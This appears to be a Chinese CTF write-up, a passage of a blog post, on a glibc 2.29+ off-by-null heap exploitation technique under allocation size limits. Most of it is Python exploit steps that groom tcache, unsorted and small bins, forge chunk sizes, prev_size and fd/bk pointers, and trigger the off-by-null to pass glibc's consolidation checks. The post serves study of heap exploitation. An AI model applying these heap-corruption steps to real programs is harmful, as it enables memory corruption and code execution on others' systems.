



<a href="elink@e98K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6y4U0l9%4z5l9`.`.">glibc 2.29-2.32 off by null bypass - 安全客，安全资讯平台 (anquanke.com)</a>

这个不需要爆破，但是对`size`的限制不能太严格，需要`largebin`的`size`。

## 第三种

这个还没写过总结，现在来，不过先贴下文章，`init-0`师傅的：

<a href="elink@2f4K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6x3e0b7I4z5q4)9J5x3$3R3K6i4K6u0V1z5l9`.`.">堆漏洞利用（2.29以上glibc,off-by-null, 加了申请size限制） - 安全客，安全资讯平台 (anquanke.com)</a>

这种方法在`size`限制下也可以使用，文章中的限制是`0xe8`的堆块，真是将堆布局用到极高的水平。

### 先看最终的布局效果


这样就能通过两项检查了：

```c
//_int_free中
if (__glibc_unlikely (chunksize(p) != prevsize))
malloc_printerr ("corrupted size vs. prev_size while consolidating");
//unlink中
if (chunksize (p) != prev_size (next_chunk (p)))
malloc_printerr ("corrupted size vs. prev_size");
```

### (1) 前置布局

由于`init-0`师傅的题目中，申请`chunk`是从`0x3a0`开始的，所以这里我就也以`0x3a0`开始：

```python
#get layout to let chunk0_addr = 0x****3a0
claim(0x88)# 0-6 #1-7
claim(0x98)# 7-13 #8-14
claim(0xa8)# 14-20 #15-21
claim(0xb8)# 21-27 #22-28
claim(0xc8)# 28-34 #29-35
claim(0xd8)# 35-41 #36-42
claim(0xe8)# 42-48 #43-49
#--------------------------
add_malloc(0x98,'\x00')# 49 #50
add_malloc(0x98,'\x00')# 50 #51 0x****f900
add_malloc(0x18,'\x00')# 51 #52 0x****f9a0
add_malloc(0xa8,'\x00')# 52 0 #53 0x****f9c0
add_malloc(0xb8,'\x00')# 53 1 #54 0x****fa70
add_malloc(0xd8,'\x00')# 54 2 #55 0x****fb30
add_malloc(0xd8,'\x00')# 55 #56
add_malloc(0xe8,'\x00')# 56 3 #57 0x****fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk_nextChunk_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk_nextChunk_preSize)# 56 #57
add_malloc(0xe8,'\x00')# 57 4 #58 0x****fde0
add_malloc(0x98,'\x00')# 58 #59
add_malloc(0xe8,'\x00')# 59 #60 0x****ff70
add_malloc(0x18,'\x00')# 60 #61
```

### (2) 填充tcache

并且将要利用的`Chunk`释放合并进入`unsortedbin`

```python
#free 0~48 #1~49
#-------------------------
#--tcache
for i in range(0,7): #0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache
for i in range(52,57): #52~56 #53~57 merge into unsortedbin
free(i+1)
```




### (3) 重构53~57结构为97~101

```python
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add_malloc(0x98,'\x00')# 52 #97 #0x****9c0
add_malloc(0x98,'\x00')# 53 #98 #0x****A60
fake_chunk_size = 0x98 * "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk_size will not cause abort
edit(98,0x98+0x2,fake_chunk_size)#53 #98
add_malloc(0x88,'\x00')#54 #99 #0x****B00
add_malloc(0x88,'\x00')#55 #100 #0x****B90
add_malloc(0xd8,'\x00')#56 #101 #0x****C70
```

重构之后如下



那么实际上其实原先的`0x420`被申请了`0x340`，还有一部分`0xe0`没有被申请出来。


### (4) 构造preChunk的fd和bk

```python
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98 #50 #51 #0x****f900
#let 99->fd = chunk51_addr(0x****f900)
free(99)#0x88 #54 #99
#let 99->bk = chunk60_addr(0x****ff70)
free(60)#0xe8 #59 #60 #0x****ff70
```


### (5) 再重构97~101为97->124->132->134

```python
free(98)#0x98 #53 #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(0xd8,'\x00')# 0x32 #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(0xb8,'\x00')# 0x35 #124 0x****fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55 #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(0xb8,'\x00')#0x36 #132 0x****fb20
add_malloc(0x98,'\x00')#0x37 #133 0x****f900
add_malloc(0x38,'\x00')#0x3b #134 0x****fbe0
```

重构之后如下



### (6) 修复FD->bk和BK->fd

```python
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(133) #0x37 #133 0x****f900
free(132) #0x36 #132 0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(123) #0x32 #123 0x****ff70
```

### (7) 再重构为97->124->157->134

方便将`0x****ff70`和`0x****f900`的对于`fd`,`bk`进行`off-by-null`，使得`0xb20`变为`0xb00`。

```python
free(59) #58 #59 0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155
add_malloc(0xc8,'\x00') #0x32 #156 0x****fed0
add_malloc(0xb8,'\x00') #0x36 #157 0x****fb20
add_malloc(0xb8,'\x00') #0x37 #158 0x****ffa0
add_malloc(0x98,'\x00') #58 #159 0x****f900
#--top_chunk
add_malloc(0x98,'\x00') #0x3d #160
add_malloc(0x98,'\x00') #0x3e #161
add_malloc(0x18,'\x00') #0x3f #162
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache
free(161) #0x98 #0x3e #161
free(159) #0x98 #58 #159 0x****f900
free(157) #0xb8 #0x36 #157
free(50) #0x98 #49 #50 0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120
claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add_malloc(0xb8,'\x00') #49 #177
add_malloc(0x98,'\x00') #0x36 #178
#切割0x140的块
add_malloc(0xc8,'\x00')#0x3a #179 0x****f860
add_malloc(0x68,'\x00')#0x3e #180
```

现在就可以通过`chunk179`来将`0x****f900`中的`bk`给改掉。

通过`chunk156`来将`0x****ff70`中的`fd`给改掉。

### (8) 利用off-by-null得到最终布局

```python
partial_null_write = 0x98*'b'
partial_null_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial_null_write+'\x00') #0x32 #156
partial_null_write = 0xa8*'c'
edit(179,0xa8+0x1,partial_null_write + '\x00') #0x3a #179
#伪造pre_size
fake_chunk_size = 0x98*'d'
fake_chunk_size += p64(0x2e1)
edit(124,0x98+0x8,fake_chunk_size) #0x35 #124
```

### (9) 触发off-by-null

```python
for i in range(42,49):#0xe8
free(i+1)
free(58)
```

## 总结

①利用`unsortedbin`成链机制，合并`unsortedbin`中的`chunk`并且切割，这样就能保留住`FD`和`BK`了。

②再利用`unsortedbin`成链和切割的机制，就能修改到对应`preChunk`的`FD`和`BK`了，修改最后一个字节为`\x00`即可。

③由于2.29之后的添加的两项检查，所以需要注意的是伪造`unsortedbinChunk`的`size`时，也要伪造`nextChunk`的`pre_size`和`pre_inuse`位。

④太他丫的麻烦了，有这时间布局还不如肝其他题.....

再贴个汇总的`exp`，基于`libc2.30`，自己的题目：
